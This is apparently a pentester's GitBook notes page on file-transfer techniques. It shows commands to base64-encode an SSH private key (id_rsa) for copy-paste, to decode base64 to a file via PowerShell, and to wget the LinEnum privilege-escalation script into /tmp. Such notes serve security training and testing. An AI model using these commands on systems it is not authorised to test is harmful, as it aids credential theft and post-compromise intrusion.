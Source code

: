 # File Transfers

## Download Operations

## Terminal String Copy & Paste

### Linux Encode Base64

{% code overflow="wrap" %}
```
cat id_rsa |base64 -w 0;echo
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Windows Decode & Write Base64

{% code overflow="wrap" %}
```
[IO.File]::WriteAllBytes("C:\path\to\file", [Convert]::FromBase64String("BASE 64 STRING"))
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption><p>cmd.exe has a maximum string length of 8,191 &#x26; powershell.exe has a maximum string length 2,147,483,647 characters</p></figcaption></figure>

## Web Downloads with Wget & cURL

### **Download a File Using wget**

{% code overflow="wrap" %}
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>
